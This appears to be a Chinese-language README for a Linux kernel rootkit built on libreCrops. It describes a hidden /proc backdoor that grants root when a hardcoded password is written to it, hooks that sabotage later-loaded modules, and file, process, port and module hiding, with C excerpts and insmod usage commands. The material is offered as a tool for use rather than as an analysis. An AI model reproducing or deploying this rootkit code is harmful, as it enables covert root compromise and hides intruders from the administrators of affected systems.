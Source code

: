 ## 开发者：
Eidos

## 参考资料：
libreCrops所提全部功能相关的内容

是一个整合体（缝合怪）。

## 运行环境：
尚没有测试过全部版本，开发时采用的环境为Ubuntu20.04 + Linux kernel 5.4.81。但根据5.x中较小的代码变动以及该项目尚未使用kall_sysm_table进行函数挂钩，应该适用于大部分5.x版本内核。

## 功能简介
### 后门设置：
```C
// 提权所需口令
#define PASSWORD "ELPSYKONGROO"
#define BACKDOOR "STEINSGATE" // 后门需要藏好
#define BACKDOOR_PATH "/proc" // 因此需要特地先藏好这个文件路径
```
本Rootkit设置了提权选项，其所在路径为/proc/STEINSGATE，在输入"ELPSYKONGROO"给/proc/STEINSGATE文件时，将会提权为Root。

该后门采用了进程隐藏的方式藏匿起来，无法通过ls /proc寻找到。

对应模块文件：backdoor.c
### 阻止后续插入模块正常运转：
```C
switch (module->state) {
    case MODULE_STATE_COMING:
        printk(KERN_INFO "Replacing init and exit functions: %s.\n", module->name);
        module->init = fake_init;
        module->exit = fake_exit;
        break;
    default:
        break;
}
```
利用notifier_block的链式通知机制，以及利用data段，存放module的做法实现了以下功能：当之后有新的模块嵌入时，其无法正常运转其功能，而是执行fake_init和fake_exit这些由我们的模块设置好的自定义功能。

经过测试可以支持多个模块的阻止功能。

对应模块文件fake.c
### 文件隐藏：
```C
char* hide_path = "default";
char* file_name = "default";
module_param(hide_path, charp, 0000);
MODULE_PARM_DESC(hide_path, "the path of dirent for file hide.");
module_param(file_name, charp, 0000);
MODULE_PARM_DESC(file_name, "the file name to hide.");
```
文件隐藏功能，在默认的情况下不打开：我们通过设置hide_path和file_name为default作为默认值，并判断模块插入后这两个参数的赋值情况来确定是否执行文件隐藏。具体来说如下所示：
```C
if (strcmp("default", hide_path) == 0) {
    return;
}
                
printk(KERN_INFO "Opening the path: %s.\n", hide_path);          
filp = filp_open(hide_path, O_RDONLY, 0);                

if (filp == NULL) return;        
```
其原理为当前文件夹下的iterate函数挂钩修改，在此不赘述。

如果我们需要隐藏根目录下的文件"alien"，模块的使用方法为：
```shell
$ sudo insmod hide.ko hide_path="/" file_name="alien"
```
再次在根目录下使用ls命令，能够观测到alien文件的消失。

对应模块文件filehide.c

### 进程隐藏：
进程隐藏与文件隐藏原理保持一致，只是锁定了先前提及的hide_path为常量：
```C
#define PROC_HIDE_PATH "/proc"
```
特别的，由于我们之前设置的后门亦在该文件夹下，需特地把后门隐藏好再说。

对应模块文件：prochide.c

### 端口隐藏：
```C
int tcp4 = INT_MAX;
int tcp6 = INT_MAX;
int udp4 = INT_MAX;
int udp6 = INT_MAX;

module_param(tcp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(tcp6, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp6, int, S_IRUSR | S_IWUSR | S_IRGRP);

MODULE_PARM_DESC(tcp4, "tcp4 port.");
MODULE_PARM_DESC(tcp6, "tcp6 port.");
MODULE_PARM_DESC(udp4, "udp4 port.");
MODULE_PARM_DESC(udp6, "udp6 port.");
```
端口文件提供了四个可由命令行传递的参数，以模块隐藏TCP4端口为33，TCP6端口为34，UDP4端口为123，UDP6端口为124为例，使用的方法为：
```shell
$ sudo insmod hide.ko tcp4=33 tcp6=34 udp4=123 udp6=124
```

端口隐藏涉及了seq_file类型的文件操作函数show，通过挂载该函数可以实现端口的隐藏，通过阅读源码可知，四种类型均存放输出信息于`seq_file`数据结构的`buf`载荷之中，以`count`作为当前`buf`长度，在我们使用`netstat`或者`cat /proc/net/tcp`最后以`write`方式输出在终端上。以TCP4隐藏端口为例。
```C
last_count = seq->count;
snprintf(needle, NEEDLE_LEN, ":%04X", tcp4);
ret = real_seq_show_tcp4(seq, v);
last_size = seq->count - last_count;

if (strnstr(seq->buf + seq->count - last_size, needle, last_size)) {
    printk(KERN_INFO "Hiding port %d using needle %s.\n", tcp4, needle);
    seq->count -= last_size; 
}
```
本质上他修正`count`载荷大小为读入该端口信息前的长度，如果我们隐藏的信息是最后一个，那么因为长度不够而干脆不打印。如果我们隐藏的端口信息不是最后一个，那么之后的端口信息将会覆盖之，从而实现隐藏。

对应的模块文件为protocolhide.c

### 模块隐藏：
综合使用了用于`seq_file`的隐藏方式和文件隐藏方式，使得模块`hide`的存在信息不可见于`cat /sys/module`和`lsmod`命令。

对应的模块文件为modhide.c

## 源码阅读：
参考libreCrops文件夹中的wiki。